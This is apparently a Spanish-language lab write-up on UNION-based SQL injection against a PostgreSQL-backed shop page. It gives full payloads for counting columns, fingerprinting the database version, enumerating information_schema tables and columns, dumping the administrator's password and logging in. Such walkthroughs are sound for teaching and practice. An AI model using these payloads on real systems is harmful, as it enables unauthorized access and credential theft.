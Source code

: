 Objetivo: Conocer que tabla contiene los nombre de usuario y la contraseña.
 - Conocer las tablas importantes
 - Contenido de las tablas
 - Logearnos como el usuario administrador

Consulta Original: `SELECT * FROM articles WHERE category='Gifts'`

![[Pasted image 20250718165549.png]]

#### Averiguar la cantidad de columnas que tiene la tabla en uso:
****
Si realizamos un ordenamiento respecto a la segunda columna con `' ORDER BY 2-- -`
o `' UNION SELECT "a","b"-- -` vemos que la web no lanza ningun error. Por lo tanto entendemos que la tabla tiene 2 columnas.

Consulta para averiguar la cantidad de columnas de la tabla en uso: `SELECT * FROM articles WHERE category='Gifts' ORDER BY 2-- -'`

Consulta (UNION): `SELECT * FROM articles WHERE category='Gifts' UNION SELECT "a","b"-- -'`

![[Pasted image 20250718170140.png]]

#### Averiguar a qué Base de Datos nos estamos enfrentando
****
Cada gestor de bases de datos tiene su forma de consultar la versión de la misma, de colocar comentarios, etc. Por lo tanto tendremos en cuenta lo siguiente al querer averiguar la versión.

##### Database version

| Gestor     | Consulta                                                           |
| ---------- | ------------------------------------------------------------------ |
| Oracle     | `SELECT banner FROM v$version   SELECT version FROM v$instance   ` |
| Microsoft  | `SELECT @@version`                                                 |
| PostgreSQL | `SELECT version()`                                                 |
| MySQL      | `SELECT @@version`                                                 |
Consulta versión PostgreSQL: `SELECT * FROM articles WHERE category='Gifts' UNION SELECT version(),NULL-- -'`

![[Pasted image 20250718171306.png]]
![[Pasted image 20250718171328.png]]

Ahora que sabemos la versión de la base de datos que corre por detrás, debemos conocer cuáles son las tablas que existen dentro de la DB.

#### Conocer la tabla que almacena los usuarios y las contraseñas.
****
Para ello, haremos uso de `information_schema`
- `information_schema.schemata` -> Bases de datos existentes.
- `information_schema.tables` -> Tablas existentes
- `information_schema.columns` -> Columnas existentes

Consulta para ver las Bases de datos existentes: `' UNION SELECT schema_name,NULL FROM information_schema.schemata-- -`

El `NULL` es el valor que va en la segunda columna de la tabla.
 
![[Pasted image 20250718173103.png]]

Vemos que hay 3 bases de datos, la que a nosotros nos interesa es la `public`. Lo siguiente que queremos hacer es ver las tablas existentes dentro de la base de datos `public`. Para ello, usaremos la siguiente consulta:

Consulta para averiguar las tablas de una Base de dato específica: `' UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema='public'-- -`

![[Pasted image 20250718181406.png]]

Aquí vemos dos tablas dentro de la base de datos  `public`: `products` y `users_xevxih`.
En la tabla `users_xevxih` están almacenadas las credenciales.

Consulta para conocer las columnas de una tabla: `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_xevxih'-- -`

![[Pasted image 20250718182515.png]]

Vemos representadas las columnas de la tabla `users_xevxih`. Estas son: `password_eeqfiy`, `username_nzsgkn` y `email`. Ahora queremos conocer la contraseña del usuario `administrator`.

Consulta para conocer la contraseña de un usuario: `' UNION SELECT username_nzsgkn,password_eeqfiy FROM users_xevxih WHERE username_nzsgkn='administrator'-- -`

![[Pasted image 20250718183352.png]]

Aquí vemos representada el usuario y la contraseña del usuario `administrator`.
#### Nos autenticamos como el usuario administrator

![[Pasted image 20250718183626.png]]

![[Pasted image 20250718183648.png]]
